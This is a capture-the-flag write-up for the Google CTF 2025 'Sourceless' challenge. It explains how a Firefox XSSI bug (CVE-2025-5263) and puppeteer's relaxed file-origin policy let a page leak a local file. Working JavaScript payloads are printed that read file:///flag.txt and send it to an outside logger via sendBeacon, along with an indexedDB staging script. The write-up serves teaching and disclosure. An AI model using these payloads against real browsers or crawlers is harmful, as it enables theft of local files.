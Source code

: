 # Sourceless writeup by [@terjanq](https://twitter.com/terjanq)
Google CTF 2025

## Challenge TL;DR

Players were given a simple puppeteer bot that visits any URL provided by the players.
The flag was stored as `file:///flag.txt` so the goal was to leak this file somehow

## Solution
The intended solution was to leak the flag file through an XSSI with help of
[CVE-2025-5263](https://www.mozilla.org/en-US/security/advisories/mfsa2025-42/#CVE-2025-5263). Players could either figure
out the solution from the error message or simply look through commits to discover the unit test for the vulnerability.

### Intercepting errors
It was possible in both Chrome and Firefox to intercept console errors by overwriting `Error.prototype` and
reading `error.message` property. Normally, when including a cross-origin script and it throws some errors `window.onerror` will
only return `Script error` for security purposes. However, one could notice that console errors contain full information, for
example `ReferenceError: abcdf is not defined`. When the console tries to construct the error message it uses shared Error
prototype with a website. This basically means that the website can pollute the prototype and execute some JavaScript.

Stealing the message can be done in the following way:

```html
  <script>
    ReferenceError.prototype.__defineGetter__('name', function(){
      const variable = this.message.split(' is ')[0];
      let decoded = '';

      for(const u16 of [...variable]){
        const i = u16.charCodeAt(0);
        decoded += String.fromCharCode(i % 256);
        decoded += String.fromCharCode(i >> 8);
      }
      navigator.sendBeacon('https://terjanq-logger.glitch.me/log2?id=sourceless', decoded)
    });
  </script>
  <script charset=utf-16le src="file:///flag.txt"></script>
```

The above script uses `utf-16le` charset so that the error message will be

```
Uncaught ReferenceError: 呃筆潌Ⅿ湯彧潬杮彧ㅬ敶瑟敨塟卓ⅉ紡 is not defined
```

You can read more about the technique [here](https://www.mbsd.jp/Whitepaper/xssi.pdf)


### Including the file
The snippet from the previous section will not work on a `https?://` protocol because of security reasons. However, any file
loaded through the `file://` protocol can include other files but can't read them directly (well, it shouldn't but sadly it did,
see the unintended section). The casual way of serving arbitrary files is to download a file and then visit it thorugh something
like `file:///home/users/user/Downloads/exploit.html` but it wasn't possible in the challenge because automatic downloads
were not enabled but also the system was in a read-only mode (except /tmp dir).

However, cached files and storage is stored as plaintext in user directory which in the challenge was set to `/tmp/firefox-userdata`.
In my solution I used indexedDB to store the exploit on the disk:

```js
async function saveBlob(dbName, storeName, key, blob) {
  const db = await new Promise((resolve, reject) => {
    const request = indexedDB.open(dbName, 1);
    request.onupgradeneeded = () => request.result.createObjectStore(storeName);
    request.onsuccess = () => resolve(request.result);
    request.onerror = () => reject(request.error);
  });
  const tx = db.transaction(storeName, 'readwrite');
  tx.objectStore(storeName).put(blob, key);
  await tx.done;
  db.close();
}

const myBlob = new Blob([`<!DOCTYPE html><html><body>
  <script>
    ReferenceError.prototype.__defineGetter__('name', function(){
      const variable = this.message.split(' is ')[0];
      let decoded = '';

      for(const u16 of [...variable]){
        const i = u16.charCodeAt(0);
        decoded += String.fromCharCode(i % 256);
        decoded += String.fromCharCode(i >> 8);
      }
      navigator.sendBeacon('https://terjanq-logger.glitch.me/log2?id=sourceless', decoded)
    });
  </script>
  <script charset=utf-16le src="file:///flag.txt"></script>
`], { type: 'text/html' });

saveBlob('myDB', 'files', 'file1', myBlob)
  .then(() => console.log('Blob saved!'))
  .catch(err => console.error(err));
```

After executing the code the file was stored in `file:///tmp/firefox-userdata/storage/default/https+++terjanq.me^userContextId=6/idb/2774579512mByD.files/1`.

After sending the bot to that URL it would send back the flag: **CTF{Loo!ong_longg_l1ve_the_XSSI!!}**

## Unintended solution

Sadly, when puppeteer is run with Firefox it disables multiple security features causing `file://A` and `file://B` be treated
as same-origin!! Specifically, `security.fileuri.strict_origin_policy` is set to false. This is a significant security gap allowing for some serious vulnerabilities if there are any crawles that
use puppeteer with Firefox, for example for PDF rendering.

I never expected this behavior to work so I didn't test for it. But players did and they solved the challenge with variations of this simple
payload:

```js
fetch('file:///flag.txt).then(e=>e.text()).then(e=>navigator.sendBeacon(url, e);
```

Note to myself to avoid using puppeteer with Firefox :) I leave it up to the players to report this security issue to puppeteer.
